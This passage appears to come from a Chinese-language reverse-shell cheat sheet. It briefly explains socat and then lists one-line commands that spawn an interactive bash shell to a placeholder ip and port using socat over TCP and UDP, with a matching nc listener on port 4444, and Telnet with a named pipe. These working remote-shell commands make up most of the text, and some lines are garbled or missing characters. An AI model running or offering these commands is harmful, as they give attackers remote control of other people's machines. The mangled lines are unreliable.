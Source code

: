 ```
end
```  
```
```  
> 运行ruby文件  
> ruby [: filename]  
  
  
  
**16**  
  
  
**Socat**  
  
  
  
	  
    socat是一个跨平台数据传输工具，它提供了一个为应用程序之间的数据交换提供可靠、双向的连接的功能。在linux系统中，socat可以用于网络、文件系统、终端、串口等多种不同的通讯方式中。它的使用方法十分灵活，可以实现各种多样的连接方式，包括TCP、UDP、HTTP、FTP等等，它可以被用来实现文本转换、转发功能、与不同协议之间的通信等。  
  
	  
    发送TCP请求数据:  
> socat tcp-connect:[: ip]:[: port]exec:'bash -li',pty,stderr,setsid,sigint,sane  
  
  
	  
    发送UDP请求数据:  
> socat udp-connect:[: ip]:[: port]exec:'bash -li',pty,stderr,sane 2>&1>/dev/null &  
  
  
	  
    远端通过NC接受UDP请求时，需要用到下面的命令:  
> nc -lup 4444  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zULPOPl8mKfRzbQcANBvF2yE67WfYibJ5HXZRs4ld2JicdBw4l6pDJlhUnWuGnU8gas77YfuzPvHfRQ/640?wx_fmt=png&from=appmsg "")  
  
****  
**16**  
  
  
**Telnet**  
  
  
> mknod backpipe p && telnet [: ip] [: port] 0<backpipe | /bin/bash 1>backpipe  
  
  
> cmdrm -f /tmp/p; mknod /tmp/p p && telnet [: ip] [: port]0/tmp/p  
  
  
## 参考  
  
[1]   
[https://mp.weixin.qq.com/s/iNCcx2KqriRoBfcKQ0zxLg](https://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650591330&idx=3&sn=01457fd8f4b9571c77a6158b90bbb7ba&scene=21#wechat_redirect)  
  
  
  
  
  
  
